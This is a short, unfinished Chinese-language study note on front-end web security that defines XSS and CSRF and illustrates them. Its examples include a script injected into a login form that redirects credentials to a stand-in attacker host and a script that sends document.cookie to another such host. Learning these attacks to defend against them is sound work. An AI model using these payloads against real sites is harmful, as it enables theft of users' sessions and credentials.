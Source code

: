 # Web 前端安全

__前言:__网络安全一直是风口浪尖，尤其这几年随着前端的发展和变化，前端的安全问题日益突出多学习。参考：《图解HTTP》

## XSS 跨站脚本攻击

>定义：

* Cross-Site Scripting 指通过存在安全漏洞的Web网站注册用户的浏览器内运行非法的HTML标签或js运行的一种攻击

>特点：

* 攻击者利用预先设置的陷阱触发的被动攻击
* 在动态生成HTML处生成

>场景：

* 登陆页表单验证

```HTML
ID <input type="text" name="ID" value=""><script> var f = document.getElementById("login"); f.action = "http://hack.jp/pwget";f.method = "get";</script><span s="" />
```

* 恶意构造脚本，窃取用户的Cookie信息

```HTML
<script src="http://hacker.jp/xss.js">
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

## CSRF 跨站点请求伪造

>定义：

* 攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。

>过程理解(以留言板为实际场景举例)

* 用户在留言板登陆，认证通过得到cookie：sid

* 攻击者在留言板上留下含恶意代码的评论如：

    ```HTML
    <img src="http://example.com/msg?q=你好">
    ```

* 用户触发陷阱，攻击者利用用户的权限发表用户非主观的动作（也就相当于是冒用别人的名义做一些事情），因为此时用户的浏览器的Cookie持有已认证的会话ID。

## 未完待续
